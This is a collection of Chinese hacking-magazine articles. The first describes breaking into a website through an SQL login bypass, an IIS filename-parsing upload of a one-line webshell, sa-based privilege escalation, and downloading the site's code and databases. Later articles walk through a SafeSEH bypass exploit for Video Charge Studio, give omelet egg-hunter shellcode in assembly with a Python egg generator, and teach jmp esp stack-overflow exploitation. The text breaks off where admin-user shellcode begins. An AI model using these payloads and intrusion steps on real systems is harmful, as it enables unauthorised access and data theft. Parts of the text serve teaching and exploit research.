一般来说如果用户名和密码输入不正确，肯定不能进入后台，但在程序验证不严格的情况下，尤其是未对输入的数据进行安全验证、未过滤单引号的情况下，可以通过 SQL 语句来绕过，如图2所示，显示用户“' or '='”成功登录。

图1 寻找并绕过后台登录验证

- 技巧：
  - 1. 成功进入后台的通常方法是通过 SQL 注入点来猜测管理员表，获取管理员用户名和密码，从而进入系统。
  - 2. 可以通过测试一些常用的后台严重登录绕过代码，来突破后台验证，从而直接进入后台。

图2 成功登录后台

### 寻找上传通道

对于网站后台来说，一般都会提供文件上传功能，通过查看各个功能模块来获取上传模块或首页面，如图3所示，找到一个上传学生数据的功能模块。单击“浏览”按钮，先直接选择 Webshell 进行上传测试，测试结果表明后台对文件后缀进行了限制。由于该站点所在服务器是 IIS，因此可以利用 IIS 解析文件名称漏洞来上传文件。上传一个 1.asp;1.jpg 文件，该文件为一句话后门，IIS 不管文件后缀是什么，照样会执行这个文件。

图3 获取后台上传地址

技巧：

- 1. 如果网站脚本是采用 asp、asp.net，那么该服务器通常是 IIS。
- 2. 如果网站是 PHP 等脚本，则可以将正常访问页面的名称进行大小写变换，例如首页一般都是 index.php，如果 InDex.Php 能正常访问，说明是 Windows 服务器，否则为 Linux 类服务器。Linux 服务器对文件名称大小写敏感。
- 3. 通过扫描服务器指纹来识别。
- 4. 通过执行命令 `telnet somesite.com 80` 返回的结果来判断。

### 使用一句话后门客户端进行连接

图片上传成功后，使用一句话后门客户端进行连接，如图4所示，成功连接一句话木马服务端。

图4 使用一句话后门客户端进行连接

### 获取服务器的基本信息

通过一句话木马的各个功能模块来获取服务器的基本信息，如图5所示，获取服务器的真实路径、IP 地址等信息，这些信息在上传较大的 Webshell 时特别有用。

图5 获取服务器的相关情况

### 上传较大的 Webshell

一句话木马虽然也比较好用，但功能上有所限制，因此在获得服务器的基本信息的情况下，可以考虑上传功能更强大的 Webshell 到服务器上，可以尝试上传 JSP/PHP/Asp.net/PL 等木马，测试服务器是否支持这些脚本。如果支持 JSP 脚本，则可以直接进行提权，JSP 默认是 system 权限。如图6所示，上传的 ASP 木马能够正常运行。

图6 获取 Webshell

### 通过数据库提权

通过获取的 Webshell 查看当前站点的代码，查看数据库文件以获取数据库用户的权限，在本例中数据库使用的是 sa 权限，因此直接通过 Webshell 的数据库连接来提权。该过程相对简单，在此就不赘述了，提权成功后，直接进入服务器，如图7所示。

图7 服务器提权

### 备份数据库和代码

通过 IIS 管理器来寻找站点的真实路径，如图8所示，查看各个站点的属性，将其代码全部打包，然后将该服务器中的所有……有效数据库进行备份，然后将其下载到本地，供学习和研究使用。
图 8　查看 IIS 设置并备份数据库和代码

### 小结

文件上传是获取 Webshell 的一种最终方法，不同的系统需要进行不同的测试。能否成功渗透系统，除了掌握必要的技术点以外，更多的是与经验积累有关。不过任何一种测试方法，在本案例中体现了三个技术，总结如下。

- 1. 密码验证绕过技术，密码验证绕过不仅限于本文提到的“' or ''='”，还有很多其他的脚本，不同的场景要用不同的方法。
- 2. 寻找上传地址，借助 IIS 文件名称解析漏洞上传一句话木马。
- 3. 寻找网站代码中的数据库连接代码，获取数据库连接用户和密码，通过连接数据库来提权。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：SafeSEH、汇编、溢出
## 实战 SafeSEH

文/图 xiaot8267

最近在学习溢出，找到了关于 Video Charge Studio（2.9.5.643）的 POC 实践一番。该软件存在缓冲区溢出，并且开启了 SafeSEH 的保护。在经过无数次的调试之后，终于对绕过 SafeSEH 机制有了深入的理解，而本文主要为了分享我在调试过程中遇到的问题及解决这些问题的思路。

一层转换，变为 0x0090，最终被转换为 0x23 了。所以这就解释了为什么漏洞不能被触发，因为输入缓冲区中所有大于 0x80 的字符有可能被转换为其他字符，导致 Shellcode 和返回地址失去作用。那么 POC 的作者又是在什么环境下研究的这个漏洞呢？我猜想有可能和操作系统的语言环境有关，于是在虚拟机下装了一个英文版的 Windows XP SP3。

### 万事开头难

首先，在拿到 POC 之后，根据 POC 发布者的相关描述，可以从描述中看出其 Shellcode 的功能是在本机添加一个名为 xsploited 的用户。在安装好具有漏洞的软件后，运行能够触发漏洞的 evil.vsc 文件，软件就出现异常退出，但是查看本机并没有添加 xsploited 的用户。此时我便产生了疑问：难道是作者开发的 POC 不具有通用性？

本人带着疑问开始了调试之旅。首先用 ollydbg 载入 Video Charge Studio 的主程序，并传入 POC 生成的 evil.vsc 文件。直接按 F9 键，单击软件的 try 按钮之后，od 停在了 0x02DC4B25，eax 的值为 0x23232323，应执行的指令是 cmp word ptr [eax],si，od 提示 access violation，即此时的 0x23232323 是不可读的地址。这个 0x23232323 的地址是哪里来的呢？仔细回想一下，Shellcode 之前有一大片的 0x90，如果缓冲区被覆盖了的话也应该是 0x90909090。

后来经过耐心调试，我发现问题出在 WideCharToMultiByte 这个函数。文件的内容本来是用 ANSI 编码存储的，被读入之后保存成 Unicode 编码，之后再经过 WideCharToMultiByte 函数进行转换。其中 WideCharToMultiByte 的定义如下：

### 证明猜想

本人在装好英文版的系统下运行 evil.vsc，有个 cmd 框一闪而过，之后在 cmd 下查看，发现果然添加了一个叫 xsploited 的用户，而且输入文件的字符在经过 WideCharToMultiByte 函数之后，值并没有改变。这说明漏洞的运行环境和操作系统的语言有关。在查阅资料时看到有人写过打造全字母数字型 Shellcode，让全字母数字 Shellcode 成为可能，不过加上寻找全都是字母或数字的覆盖地址，条件就有点苛刻了。看来自要打造通用性的 Exploit 绝非易事啊。

新手往往在开始阶段会碰到各种问题，本人尤其喜欢克服困难和由浅入深的过程。在解决了开始阶段遇到的问题之后，终于可以回到正题，通过这个实例来学习 SafeSEH 机制了。

### 回归正题

经过仔细的调试之后，我们了解了程序处理 evil.vsc 的流程。evil.vsc 其实是一个 XML 类型的文件，程序首先通过 CrcdFileW 打开文件，之后通过 ReadFile 读取文件内容，然后解析其中的内容，解析的工作是在 msxml3.dll 中完成的。之后在解析 FileName 结点的时候，首先读入 ANSI 形式的字符，保存为 Unicode，之后再调用 WideCharToMultiByte 直接将 FileName 结点的值转换为 ANSI 字符保存在栈中，保存的地址是 0x12C640。但是由于缺少对宽字节缓冲区大小的检查，直接根据计算的宽字节缓冲区的大小对 ANSI 字符的缓冲区进行复制，导致程序存在栈的缓冲区溢出。以下是关键的程序片段。

```c
int WideCharToMultiByte(
  UINT   CodePage,
  DWORD  dwFlags,
  LPCWSTR lpWideCharStr,
  int    cchWideChar,
  LPSTR  lpMultiByteStr,
  int    cbMultiByte,
  LPCSTR lpDefaultChar,
  LPBOOL lpUsedDefaultChar
);
```

WideCharToMultiByte 会根据 CodePage 所设置的值进行相应的映射。在设置了相应的 CodePage 之后，如果设置了 lpDefaultChar，WideCharToMultiByte 在碰到不能转换的字符时，将默认转换为 lpDefaultChar 指向的字符。本程序就将默认字符设置成 0x23，所以像 0x90 这样大于 0x80 的字符，首先经过第一层转换后就会被替换。

```asm
02DC3750  55            push ebp
02DC3751  8BEC          mov ebp,esp
02DC3753  83EC08        sub esp,8
02DC3756  8D45F8        lea eax,[ebp-8]
02DC3759  50            push eax
02DC375A  68...         push ...
02DC375F  8B4D0C        mov ecx,[ebp+C]
02DC3762  51            push ecx


```
在找到程序的溢出点之后，此刻心情十分激动，但是分析工作还没做完。我们接着运行程序，执行完 WideCharToMultiByte 函数后可以发现，0x12C640 之后的 836 字节被覆盖。在这个函数的 ret 之后，程序会将 0x12C640 的这片缓冲区复制到以 0x12CB90 为首地址的缓冲区。最后 od 就会停在我们开始直接按 F9 键的地方。经过分析可以知道，在调用完 WideCharToMultiByte 之后，0x12CB90 之后的缓冲区被覆盖，使得程序在读取缓冲区中的变量内容时导致内存不可访问。这时，我们完全可以联想到用 SEH 机制来利用这个漏洞。

S.E.H 即异常处理结构体，是 Windows 异常处理机制所采用的重要数据结构。对于该结构的讲解，《0 day 安全：软件漏洞分析技术》的第 7 章和看雪的 Exploit 编写系列教程第 3 章都有详细描述，这里就不再赘述。我们知道每个 S.E.H 结构包含一个指向下一个 S.E.H 链表的指针和异常处理函数指针（SE handler），而且 S.E.H 结构体存放在系统栈中。这个程序既有栈溢出，输入的内容又能够导致读写异常，那么我们只要覆盖了最近缓冲区中 S.E.H 的异常处理函数指针地址，然后触发异常，程序是不是就可以跳到我们覆盖的地址了呢？答案是否定的。因为老这么玩微软，微软肯定不干。在 Windows XP SP2 和 Windows 2003 之后，微软引入了 S.E.H 的校验机制，即 SafeSEH。该机制的作用是当系统向栈帧中安装 S.E.H 的时候，还会在栈以外的地方记录一个该 S.E.H 的副本。当异常发生以后，系统首先检查异常处理地址是否在当前线程的栈顶部地址和栈底部地址之间，如果是，则不执行该异常处理函数。然后再遍历当前的 S.E.H 是否与栈外的副本一致，如果出现不匹配的情况，那么该异常处理函数依然得不到执行。面对 SafeSEH 机制，难道我们的处女实战就要夭折了吗？

其实不然。正所谓道高一尺，魔高一丈。在参考了看雪的 Exploit 教程之后，得知其实有一些方法可以绕过 SafeSEH。

- 直接利用返回地址；
- 如果 S.E.H 中的函数指向堆，即使安全验证发现了 S.E.H 不可信，仍然会执行该异常处理函数；
- 通过没有启用 SafeSEH 的模块地址来绕过。

第一种情况不太适合这次碰到的情况，因为缓冲区的地址比函数的返回地址要高很多，返回地址是无法被覆盖的。而第二种情况更难利用。这时我不得不感叹想出第三种解决方案的精妙。第三种方案的方法是：

- 1. 在其他没有启用 SafeSEH 的模块中找到 `pop pop ret` 这样结构的指令地址，覆盖掉异常处理地址。
- 2. 将指向下一个 S.E.H 链表的指针（下面以 nSEH 作为简称）填上相应的跳转指令（注意这里填的是指令）以跳到 Shellcode 的地址。
- 3. 触发异常。

我们可以结合如图 1 所示的示例图来理解这个过程。
图 1 展示了在实现方案三之后程序的一个执行流程。

- 1. 在我们触发异常之后，系统首先对异常处理函数地址进行检查，如果满足前面提到的检查条件，则先将异常处理函数的参数入栈，然后通过 call 指令调用异常处理例程。
- 2. 这时我们的异常函数地址指向的指令是 `pop pop ret` 类型的指令，经过两个 pop 之后，`esp=esp+8`，然后一个 ret 指令刚好就跳到了 nSEH 的地址继续执行。
- 3. nSEH 的内容其实填写的是指令，控制程序跳转到 Shellcode 的地址。

刚开始我始终没有理解为什么要找 `pop pop ret` 的地址，后来在跟踪调试 KiUserExceptionDispatcher 的时候发现，程序在调用异常处理地址时，`esp+8` 正是下个 S.E.H 结构的地址，后来在参考了“A Crash Course on the depths of Win32 SEH”后才明白其中的缘由。首先，异常处理函数的结构如下所示：

```c
void (*handler)(
    PEXCEPTION_RECORD,
    EXCEPTION_RECORD 记录,
    PEXCEPTION_REGISTRATION,
    PCONTEXT,
    PEXCEPTION_RECORD);
```

EXCEPTION_REGISTRATION 的结构如下所示：

```c
struct _EXCEPTION_REGISTRATION {
    struct _EXCEPTION_REGISTRATION *prev; // 下一个异常处理的结构指针
    DWORD handler;                        // 异常处理函数地址
};


```

此时，`esp+8` 里放的是 PEXCEPTION_REGISTRATION 的值，而 EXCEPTION_REGISTRATION 的第一个元素就是 nSEH。这样又一个疑惑被解开了。

下面我们结合 POC 作者的 payload 来看这种方案的精妙之处。Payload 的结构如图 2 所示。
| Address  | SEhandler          |
|----------|--------------------|
| 0012CEC8 | WMOM.0267BF6       |
| 0012CF08 | vcstudio.0085D389  |
| 0012CF6C | vcstudio.0085DD36  |
| 0012CFAC | vcstudio.0085DCF0  |
| 0012D004 | vcstudio.0085D8C3  |
| 0012D054 | vcstudio.008598E0  |

Payload 总共是 824+4+4+4 字节，完全能够承载 302 字节的 Shellcode。并推测 0x61B8451C 是 pop pop ret 指令地址，且该地址所在模块未启用 SafeSEH。

我们可以看到链头地址是 0x0012CEC8，减去 0x12CB90 刚好等于 824，因此在 0x0012CEC8 之前可完整装载 payload 前 824 字节；0x0012CEC8 指向 nSEH，0x0012CECC 为要覆盖的 SE Handler 地址。

于是通过 ollydbg 的插件 OllySSEH 查看哪些模块启用了 SafeSEH，截图如图 3 所示。
payload 的流程：异常触发后，经系统校验先转到 0x61B8451C 执行 pop pop ret，再执行 nSEH 中的短跳转（如 `\xEB\x06\x90\x90`），跳到 jmp back 地址并回跳 800 字节，经过一段 nop 后进入 Shellcode。
从图 3 可见 VideoCharge 加载的 zlib.dll 模块 SafeSEH 关闭，且 0x61B8451C 位于 zlib.dll 中，对应指令符合 pop pop ret 结构。

```asm
61B8451B  59   pop ecx
61B8451C  5B   pop edx
61B8451D  5E   pop esi
61B8451E  C3   ret


```

最后剩下的是 SE handler 地址如何找到：程序会把输入缓冲区复制到以 0x12CB90 为首地址的栈缓冲区，相关函数地址是 0x02654176，此时 S.E.H 链如图所示。

### 后记

调试该漏洞仍遇到不少问题，本文应算调试记录的缩略。若上述理解有误欢迎指正，并感谢给予方向性指导与相关教程作者。（编辑提醒：文中代码可到黑防官方网站下载）

前置知识：汇编  
关键词：Shellcode、分段执行

## Shellcode 分段执行技术原理
文 / riusksk（泉哥）

### 前言

由于在实际溢出利用中，可能遇到内存中没有足够空间存放完整 Shellcode，但可以控制多块小内存空间内容，此时可使用 Shellcode 分段执行技术（国外称为“Omelet Shellcode”）进行利用。

属于 egg hunt shellcode 的一种形式，它先在用户地址空间中寻找与其相匹配的各个小内存块（egg），然后再将其重构成一块大块的 Shellcode，最后执行它。此项技术最初是由荷兰著名黑客 Skylined 在其主页上公布的（具体代码参见附件），该黑客先前就职于 Microsoft，但于 2008 年初转入 Google，同时他也是著名的字母数字型 Shellcode 编码器 Alpha2 / Alpha3 的开发者。

当从地址 0x00000000 开始搜索后，若找到以相匹配的 egg_size 开头的 egg 内存块，它会将接下的 DWORD 值与一个特殊值（3 字节的标记值和 1 字节的 0xFF）相异或，如果是我们要找的 egg 内存块，那么获取的结果会等于内存块的索引号（从 0 开始），比如第二块 egg 内存块的这个 DWORD 值为 0xBADA55FE，那么它与 0xBADA55FF 相异或后值为 1。如果不是相匹配的 egg 内存块，则继续搜索下一字节。对应的代码如下所示：

### 原理分析

将 Shellcode 拆分成固定大小的多个代码块，各个代码块中包含其字节大小 size、索引值 index、标记 marker（3 字节）和数据内容 data，如图 1 所示。
图 1.

```asm
create_SEH_handler:
  PUSH ECX
  MOV [FS:EAX], ESP
SEH_handler:
  CLD
scan_loop:
  MOV AL, egg_size
  REPNE SCASB
  PUSH EAX
  MOV ESI, EDI
  LODSD
  XOR EAX, (marker<<8)+0xFF
  CMP EAX, BYTE max_index
  JA reset_stack
```

当 egghunter 代码开始执行时，它会在用户内存空间中（0x00000000~0x80000000）搜索这些被标记的小块，然后在内存中重构成最初的 Shellcode 并执行它。而当 Shellcode 执行时，它还会安装 SEH 以处理访问违例时的情况。若出现访问违例，则 SEH handler 会将地址与 0xFFF 进行或运算，然后再加 1，相当于进入下一内存页，以跳过不可读取的内存页。如果搜索的内存地址大于 0x7FFFFFFF，那么终止搜索，并在内存中重构 Shellcode 用于执行；否则重置栈空间，防止因递归进行异常处理而将栈空间耗尽，它会重新设置 SEH handler 并继续搜索内存。相应代码如下：

```asm
reset_stack:
  XOR EAX, EAX
  MOV ECX, [FS:EAX]
find_last_SEH_loop:
  MOV ESP, ECX
  POP ECX
  CMP ECX, 0xFFFFFFFF
  JNE find_last_SEH_loop
  POP EDX
  CALL create_SEH_handler
SEH_handler:
  POPA
  LEA ESP, [BYTE ESI+0x18]
  POP EAX
  OR AX, 0xFFF
  INC EAX
  JS done
  XCHG EAX, EDI
  JMP reset_stack
```

找到 egg 内存块后，将内存块大小 egg_size 与索引值 egg_index 相乘可得到该内存块在原始 Shellcode 中的偏移 egg_offset，然后将它再加上存放 Shellcode 的栈空间起始地址，最后得到绝对地址，并将该 egg 内存块复制到绝对地址上，直至所有的 egg 内存块全部复制到栈上，进而在栈上重构出完整的 Shellcode。其对应代码如下：

```asm
  POP ECX
  IMUL ECX
  ADD EAX, [BYTE FS:EDX+8]
  XCHG EAX, EDI
copy_loop:
  REP MOVSB
  MOV EDI, ESI
```

最后就是跳到栈底去执行重构后的 Shellcode：

```asm
done:
  XOR EAX, EAX
  CALL [BYTE FS:EAX+8]
```

这样就完成了对各段 egg 内存块的搜索，并重构出完整 Shellcode 来执行。

注意：由于此代码只搜索 0x00000000～0x80000000 之间的用户内存空间，因此对于开启 /3Gb（0x00000000～0xC0000000）开关的系统并不适用，若应用在这样的系统上就可能会导致部分 egg 内存块未搜索到，以致无法正确地执行 Shellcode。

在 2010 年 8 月，由 Exploit 编写系列教程的作者 Peter Van Eeckhoutte 编写的 egg-to-omelet hunter 程序在其博客上公布了（详细源码参见附件），此份程序对原先由 SkyLined 编写的 omelet hunter 进行了改进，提高了成功率和稳定性。此份程序先从当前栈帧的末尾（0x...ffff）开始搜索，为了避免出现 NULL 字节，又让 egg 内存块数量 nr_egg 加 1，因此我们还可以让它与 1 相比较，然后去搜索保存在 ecx 中的内存块标记 tag，此标记类似这样：

> 773030<seq>

这里 seq = 1 + number_of_remaining_eggs_to_find + 1。比如你有 3 个 egg 内存块，那么每块 egg 对应的 tag 分别为：

- Egg 1: 77 30 30 05
- Egg 2: 77 30 30 04
- Egg 3: 77 30 30 03

在搜索过程中，它通过调用 NtAccessCheckAndAuditAlarm 来判断是否出现访问违例，出错则重新搜索，否则就继续寻找各内存块标记 tag，找到后通过 rep movsb 指令将其复制到 edi 指向的地址中，进而重组原始 Shellcode 并进行执行。具体源码分析如下：

```asm
BITS 32
nr_eggs equ 0x2
egg_size equ 0x7b
jmp short start
get_target_loc:

push esp
pop edi
or di,0xffff
mov edx,edi
xor eax,eax
mov al,nr_eggs
calc_target_loc:
xor esi,esi
mov si,0-(egg_size+20)

get_target_loc_loop:
dec edi
inc esi
cmp si,-1
jnz get_target_loc_loop
dec eax
jnz calc_target_loc
xor ebx,ebx
mov bl,nr_eggs+1
ret

start:
call get_target_loc
jmp short search_next_address
find_egg:
...
```

```asm
dec edx
...
search_next_address:
inc edx
push edx
push byte +0x02
pop eax
int 0x2e
cmp al,0x5
pop edx
je search_next_address
mov eax,0x77303001
add eax,ebx
xchg edi,edx
scasd
xchg edi,edx
jnz find_egg
copy_egg:
mov esi,edx
xor ecx,ecx
mov cl,egg_size
rep movsb
dec ebx
cmp bl,1
jnz find_egg

done:
call get_target_loc
jmp edi
```

以上分析的两组程序均是对各 egg 内存块进行搜索的 egg-to-omelet hunter 程序，SkyLined 还提供了另一组代码用于将 Shellcode 进行分段，构造出各段 egg 内存块数据，其文件名为 w32_SEH_omelet.py，是用 Python 编写的。它主要是遵循 SkyLined 在 w32_SEH_omelet.asm 代码中所提到的算法进行计算，以获取各块 egg 中的字节大小 size、索引值 index、标记值 marker（默认为 0x280876），以及各 egg 中的部分 Shellcode 代码，每块 egg 的大小是固定的（默认为 127 字节），不足的用 '@'（0x40）填充。其核心代码如下：

```python
def Main(my_name, bin_file, shellcode_file, output_file, egg_size='0x7F', marker_bytes='0x280876'):
    if(marker_bytes.startswith('0x')):
        marker_bytes = int(marker_bytes[2:], 16)
    else:
        marker_bytes = int(marker_bytes)
    if(egg_size.startswith('0x')):
        ...
```

```python
egg_size = int(egg_size[2:],16)
...
bin = open(bin_file).read()
marker_bytes_location = ord(bin[-3])
max_index_location = ord(bin[-2])
egg_size_location = ord(bin[-1])
...
for i in range(0,3):
    marker_bytes_string += chr(marker_bytes & 0xFF)
    marker_bytes >>= 8
...
output = []
output.append('omelet_code = "%s"' % HexEncode(code))
...
while shellcode:
    egg = egg_size_string + chr(egg_index ^ 0xFF) + marker_bytes_string
    egg += shellcode[:egg_size-5]
    ...
```

```python
open(output_file,'w').write('\n'.join(output))  # 写入输出文件 output_file
```

### 应用方法

关于使用方法，其实很简单，使用命令如下：

```bash
C:\Users\riusksk> w32_SEH_omelet.py  w32_SEH_omelet.bin shellcode.bin  output.txt  127  0xBADA55
```

它需要先生成两个 bin 文件，一个是 shellcode.bin，还有一个用于 egg 搜索的 w32_SEH_omelet.bin。这里用 Peter Van Eeckhoutte 编写的 egg-to-omelet hunter 程序来生成 bin 文件。关于 shellcode.bin，可以先用 metasploit 生成 Shellcode，然后用 perl/python 将 Shellcode 写入一个 bin 文件即可；而 w32_SEH_omelet.bin 可直接用 nasm 去编译 SkyLined 的 w32_SEH_omelet.asm 或者 Peter Van Eeckhoutte 写的 corelan0d3r_omelet.asm，从而得到此 bin 文件。output.txt 是输出文件，用来保存生成各个 egg 以及 omelet 代码，后面的 127 是每块 egg 内存块的字节数，而 0xBADA55 是标记值，也可采用其它 3 字节数据，比如 w00\x77\x30\x30，最后生成的输出文件内容类似如下：

```text
// This is the binary code that needs to be executed to find the eggs,
// recombine the original shellcode and execute it...
omelet_code = "\x1F\xEB\x23..."

// These are the eggs that need to be injected into the target process
// for the omelet shellcode to be able to recreate the original shellcode
// (you can insert them as many times as you want...)
egg0 = "\x3B\xFF\x76..."
egg1 = "\x3B\xFF\x76..."
egg2 = "\x3B\xFD\x76..."
```

生成文件后我们就可以在实际漏洞利用中构造出类似下面这样的 exploit：

```text
{junk}{seh(jmp 06)}{seh(pop pop ret)}{nops}{omelet_code}{junk}{egg0}{junk}{egg1}{junk}{egg2}


```

不过具体的实际漏洞利用还得受一些操作环境影响，需要视具体情况进行变化，同时还需要一点儿运气！

### 结语

本文就 Omelet Shellcode 进行简单地分析，阐述了 Shellcode 分段执行技术的基本原理，并对其使用进行了简单的讲解，以帮助大家更好地理解并应用好 Omelet Shellcode。笔者只是起到抛砖引玉的作用，关于 Shellcode 的编写还有很多技术性，同时也需要一定的艺术性，这些都需要靠大家共同来打造和分享。如果你有更多关于这方面的资料和技术，希望可以跟我分享，我的 ID：riusksk。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：栈溢出、Shellcode

## 栈溢出攻击原理及编写 Shellcode

文/stormxp
几个月前笔者曾经为一个网站写过一个服务器端程序。程序的大体作用是监听一个端口，客户端通过 socket 向服务器端发送数据报，服务器端收到数据报后为每一个客户端启动一个线程并处理客户端请求。当时笔者还没有接触到缓冲区溢出的概念，并不知道溢出为何物，后来学习了溢出方面的知识才发现那个程序里面存在一个严重的栈溢出漏洞。于是把那个程序加以修改，写一篇栈溢出方面的文章分享一下自己的学习经验。缓冲区溢出方面的文章黑防以前的几期上也有，但很少讲到如何去写自己的 Shellcode，这篇文章将分为以下两个部分，一是栈溢出攻击的原理和思路，二是如何去写自己的 Shellcode。文章所附带的源代码用 VC6.0 编译通过，另外要用到反汇编工具 OllyDBG、PE 文件分析工具 ExeScope，这些工具可以到网上下载。

代码包含了以下内容：在栈中为变量 p 申请一个 4 个字节的内存（Windows XP 中地址为 32 位，也就是 4 个字节，所以任何一种类型的指针都占 4 个字节），并把字符串 "This is test!" 的地址赋值到这块内存中。第二句调用函数时首先把变量 p 的值，也就是字符串 "This is test!" 的地址压入到栈中，然后把 test(p) 下一句代码的地址（函数执行完后的返回地址）压入栈中，然后转到 test 函数开始执行。进入 test 后，变量 q 中存放的是数据区中字符串 "This is test!" 的地址，test 函数的第一句话为在栈中申请一个 20 个字节的空间，第二句为把数据区中的字符串复制到栈中。复制完成后会从栈中弹出刚才压到栈里的返回地址，并转到该地址继续执行主函数。

程序识别一个字符串时是以字符“\0”为结束标志，也就是说虽然字符串 "This is test!" 只有 13 个字符，但它其实占了 14 个字节，"!" 后面有一个空字符“\0”。当用 strcpy 复制字符串时，它并不去检查 buf 这个缓冲区有几个字节，而是当遇到源字符串的结尾标志时才结束复制。假如这个程序中的 buf 数组共有 10 个元素，当进行复制时就会出现缓冲区不够用的情况，strcpy 会把这 10 个字节覆盖完后继续复制到栈中的其他变量所分配的空间里，直到源字符串被复制完。毫无疑问程序再去存取其他变量时就会出错。程序进入 test 后栈的简化情况如图 1 所示，这个图是理解栈溢出的关键。栈的具体变化情况读者可以用 OllyDBG（以下简称 OD）进行跟踪研究。

### 应用程序运行原理

这一节里将会讲一些 C 语言代码映射到二进制代码的细节，这些知识是理解栈溢出的基础。应用程序的内存被划分为三个部分：代码区、数据区、堆栈区。程序中定义的全局变量以及字符串编译后运行时被放在了数据区中，局部变量放在了栈中，代码放在代码段中，这三个部分在内存中是独立存放的。变量存取的操作就被映射为对这些地址及对堆栈的操作。先看下面一个很简单的 C++ 代码：

```cpp
#include <iostream.h>
#include <windows.h>
void test(char *q)
{
    char buf[20];
    strcpy(buf, q);
    return;
}
void main()
{
    char *p = "This is test!";
    test(p);
    return;
}


```

程序在被 Windows 加载时首先初始化数据区的内容，也就是在数据区中为字符串 "This is test!" 申请空间并赋值。然后做一些进入 main 函数之前的预处理工作，包括初始化异常处理函数的地址等。做完这些才进入 main 函数执行自己的代码。第一句……
图 1 只是一个简化图，可能与事实不符。

注意，栈是向上生长的，执行 “add esp, 4” 就意味着栈变小，栈顶指针向下移动。buf 的基址位于低地址，buf[0] 在最上面，buf[19] 在最下面，字符串复制是从低地址向高地址进行复制。从图中可以看到，当数组 buf 溢出后 test 的返回地址就有可能被覆盖。覆盖返回地址就是溢出攻击所要做的事情。

### 用 jmp esp 执行攻击代码

我们可以去构造一个字符串，在字符串中包含一些可执行代码的二进制码，并把这些二进制代码通过溢出的形式存放在存在漏洞的程序的栈里，再想办法让程序执行这段代码，从而达到攻击的目的。这个字符串结构如下：

- 首先是一堆无用的数据，用来覆盖返回地址之前的栈空间（0012ff28 向上的栈空间）；
- 覆盖返回地址，也就是上图 0012ff28 中的 4 个字节；
- 攻击代码（以字符串形式保存的十六进制指令，这些数据在发送方看来是一些字符串，但对于被攻击者就是可执行的代码），也就是 0012ff28 下面的空间。

当函数执行到返回时，会执行以下工作：  
（1）把返回地址（0012ff28 中的内容）放到 eip 里，让程序去执行 eip 处的指令；  
（2）esp 指向下一个地址，在图中为 0012ff2c。

根据我们的设想，应该在 0012ff28 中用攻击代码的地址覆盖原有的 00401098。当 buf 被我们的攻击字符串溢出后，攻击代码的起始地址就是图中的 0012ff2c。但这个地址在不同的系统中可能会不同，我们无法在构造字符串时就确定这个地址，也就是不可能直接用攻击代码的地址覆盖返回地址。

如果我们用 jmp esp 在内存中的地址来覆盖返回地址，那么程序执行流程会变为：当遇到返回指令时，程序跳到内存中某个地方执行 jmp esp，而这句话又会让程序跳到 esp 处执行，这个位置恰好是攻击代码处，这样我们的攻击代码就得以执行了。jmp esp 是存在于系统内存空间的指令（这样的指令不止一个），这个地址会因系统版本的不同而不同。为了获取这个地址，我们可以用 OD 打开任何一个 exe 文件，在代码区单击鼠标右键，在弹出菜单中选择“转到→表达式”，输入任何一个系统地址空间中的地址，如 7C802446（XP SP3 下 Kernel32.dll 中函数 Sleep 的地址，可以用 ExeScope 打开系统目录下的 kernel32.dll 来查看），单击确定后会进入到系统地址空间中。然后在代码区单击鼠标右键，选择“查找→命令”，输入 jmp esp，单击确定后就会找到 jmp esp 的地址，笔者找到的地址为 7C874413。

### 攻击实例

本节以笔者写的漏洞程序为分析对象，该程序为附带的源码中的 Server 工程，有如下功能：

- 初始化本地 winsock 库；
- 初始化本地 socket，以及本地 socket 地址信息；
- 把地址信息绑定到本地 socket 上；
- 等待接收客户端信息；
- 当有信息到来时，把接收到的数据保存并执行服务函数 StartService；
- 服务函数把接收到的字符串复制到自己的缓冲区中并返回（存在漏洞的地方）；
- 主函数等待下一次客户端请求的到来。

程序功能很简单，漏洞就存在于函数 StartService 中。工程 Client 为攻击程序，用于向服务器发送攻击字符串，具体实现及注释见源代码。

攻击字符串的编写分 3 个步骤：  
（1）确定数组基址到返回地址之间的栈空间大小；  
（2）寻找 jmp esp 的地址；  
（3）写出可执行代码的机器码。  

第 2 步上面已经说过了，第 3 步将在下面专门去讲，现在主要说一下第 1 步，第 1 步要用到的工具是 OD。

- 用 OD 打开工程 Server 编译生成的 server.exe 文件，程序停在 0040114F 处（可能和读者的地址会有所不同），这里主要是一些预处理，还没有进入我们的主函数。
- 向下找，在 0040111E 处有个 call 指令，这个就是我们的 main 函数入口。
- 选定这个指令按 F4 键（运行到光标处）执行到这个地方，再按 F7 键（单步进入）进入主函数，主函数入口地址为 00401030。
- 向上翻到 00401000 处，这个地方就是我们的服务函数入口地址，也是我们要重点跟踪的地方，在这个地方按 F2 键（下断点）加一个断点，再按 F9 键（运行）把程序运行起来，此时程序正在等待客户端请求的到来。
- 执行客户端程序 Client，它会向服务器端发送一个字符串（因为是在测试，所以这个字符串可以随意发，真正攻击时就是精心设计的了），发送完之后就会看到 OD 停在了服务函数的入口处。
- 查看右下角的栈区，会发现最上面的是“0012D6B4 004010DC”，前面一个是栈顶地址，后面一个是在这个地址中存放的返回地址，把这个栈顶地址记下来。
- 在代码区中向下找，会发现在 00401021 处有一句数据复制指令：REP MOVS DWORD PTR ES:[EDI], DWORD PTR DS:[ESI]，这里的 edi 就是我们程序中的 buf 数组的开始位置。查看右侧的 edi 寄存器，edi 的值为 0012D6A0，也就是说 buf 基址与返回地址之间的字节数为 0012D6B4 - 0012D6A0 = 14h，共 20 个字节，所以我们在构造字符串时返回地址之前要有 20 个字节的无用数据。

好了，到现在我们已经得到了攻击字符串前半部分的内容：首先是 20 个字节的无用数据（我们取 20 个 \x90），然后是返回地址。这里要注意一下，字符串复制是从低地址向高地址覆盖，但计算机取地址是从高地址向低地址取，所以返回地址要逆序排列，比如上面得到的 jmp esp 的地址为 7C874413，我们构造的字符串必须为“\x13\x44\x87\x7C”。

### 编写攻击代码——在已被攻击计算机上添加具有管理员权限的用户

